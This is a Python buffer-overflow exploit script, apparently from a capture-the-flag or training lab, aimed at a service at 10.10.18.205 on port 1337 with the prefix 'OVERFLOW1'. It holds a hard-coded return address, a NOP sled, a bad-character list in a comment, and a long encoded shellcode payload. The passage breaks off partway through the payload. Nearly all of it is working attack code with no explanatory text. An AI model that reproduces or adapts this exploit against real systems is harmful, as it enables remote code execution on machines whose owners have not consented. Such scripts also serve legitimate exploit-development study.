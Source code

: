```py
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.18.205"

port = 1337

timeout = 5

prefix = "OVERFLOW1 "

retr = "\xaf\x11\x50\x62"

sledge = "\x90" * 16

#bad = "\x01\x02\x03\x04\x05\x06\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

tantofaz = ""

#PAYLOAD

payload = ("\xbb\x0f\xc0\xdc\xf1\xd9\xcb\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"

"\x52\x83\xc6\x04\x31\x5e\x0e\x03\x51\xce\x3e\x04\x91\x26\x3c"

"\xe7\x69\xb7\x21\x61\x8c\x86\x61\x15\xc5\xb9\x51\x5d\x8b\x35"

"\x19\x33\x3f\xcd\x6f\x9c\x30\x66\xc5\xfa\x7f\x77\x76\x3e\x1e"

"\xfb\x85\x13\xc0\xc2\x45\x66\x01\x02\xbb\x8b\x53\xdb\xb7\x3e"

"\x43\x68\x8d\x82\xe8\x22\x03\x83\x0d\xf2\x22\xa2\x80\x88\x7c"

"\x64\x23\x5c\xf5\x2d\x3b\x81\x30\xe7\xb0\x71\xce\xf6\x10\x48"

"\x2f\x54\x5d\x64\xc2\xa4\x9a\x43\x3d\xd3\xd2\xb7\xc0\xe4\x21"

"\xc5\x1e\x60\xb1\x6d\xd4\xd2\x1d\x8f\x39\x84\xd6\x83\xf6\xc2"

"\xb0\x87\x09\x06\xcb\xbc\x82\xa9\x1b\x35\xd0\x8d\xbf\x1d\x82"

"\xac\xe6\xfb\x65\xd0\xf8\xa3\xda\x74\x73\x49\x0e\x05\xde\x06"

"\xe3\x24\xe0\xd6\x6b\x3e\x93\xe4\x34\x94\x3b\x45\xbc\x32\xbc"

"\xaa\x97\x83\x52\x55\x18\xf4\x7b\x92\x4c\xa4\x13\x33\xed\x2f"

"\xe3\xbc\x38\xff\xb3\x12\x93\x40\x63\xd3\x43\x29\x69\xdc\xbc"

"\x49\x92\x36\xd5\xe0\x69\xd1\xd0\xf2\x65\x0b\x8d\xf8\x85\x5a"

"\x11\x74\x63\x36\xb9\xd0\x3c\xaf\x20\x79\xb6\x4e\xac\x57\xb3"
```